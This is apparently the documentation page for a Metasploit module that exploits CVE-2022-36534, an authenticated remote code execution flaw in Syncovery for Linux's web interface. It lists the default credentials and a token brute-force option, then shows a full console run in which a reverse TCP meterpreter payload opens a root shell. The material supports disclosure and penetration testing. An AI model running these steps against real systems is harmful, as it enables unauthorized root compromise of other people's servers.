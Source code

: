 ## Vulnerable Application
[Syncovery For Linux with Web-GUI](https://www.syncovery.com/download/linux/)

This module exploits an authenticated remote code execution vulnerability (CVE-2022-36534)
in the Web GUI of Syncovery File Sync & Backup Software for Linux.
Syncovery allows an authenticated user to create jobs, which are executed before/after a profile is run.
Jobs can contain arbitrary system commands and will be executed as the user `root`.
A valid username and password or a session token is needed to exploit the vulnerability.

This affects Syncovery for Linux before v9.48j and all versions of the obsolete branch 8.

Installing a vulnerable version of Syncovery for Linux to test this vulnerability is quite easy.
Download a vulnerable version of Syncovery for Linux: https://www.syncovery.com/release/Syncovery-9.47a-amd64.deb
Install it and once the server is up, you can access it on port 8999 for testing...

## Authors

- Jan Rude (mgm security partners GmbH)

## Platforms

- Unix

## Verification Steps

1. `use exploit/unix/http/syncovery_linux_rce_2022_36534`
2. `set RHOSTS <TARGET HOSTS>`
3. `set LHOST <Address of Attacking Machine>`
4. `run`
5. You should get a meterpreter shell as the `root` user.

## Options

### USERNAME
Username used for login. Default is "default".

### PASSWORD
Password used for login. Default is "pass".

### TOKEN
Instead of using a username and password it is also possible to use an authentication token.
A valid token might be successfully brute-forced with the scanner module `syncovery_linux_token_cve_2022_36536`.

### TARGETURI
The path to Syncovery login.

### PORT
The (TCP) target port on which Syncovery is running. By default port 8999 is used for HTTP and port 8943 is used for HTTPS.

## Scenarios

### Syncovery for Linux with default credentials

```
msf6 > use exploits/unix/http/syncovery_linux_rce_2022_36534
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > set rhosts 192.168.178.26
rhosts => 192.168.178.26
msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > set lhost 192.168.178.26
lhost => 192.168.178.26
msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > options

Module options (exploit/unix/http/syncovery_linux_rce_2022_36534):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   pass             yes       The password to Syncovery (default: pass)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.178.26   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The path to Syncovery
   TOKEN                       no        A valid session token
   USERNAME   default          yes       The username to Syncovery (default: default)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.178.26   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Syncovery for Linux < 9.48j


msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > check
[+] 192.168.178.26:8999 - The target is vulnerable.
msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > run

[*] Started reverse TCP handler on 192.168.178.26:4444
[+] 192.168.178.26:8999 - Exploit successfully executed
[*] Sending stage (40132 bytes) to 192.168.178.26
[*] Meterpreter session 1 opened (192.168.178.26:4444 -> 192.168.178.26:38008) at 2022-09-06 13:44:13 +0200

meterpreter > sysinfo
Computer        : kali
OS              : Linux 5.16.0-kali7-amd64 #1 SMP PREEMPT Debian 5.16.18-1kali1 (2022-04-01)
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > getuid
Server username: root
```
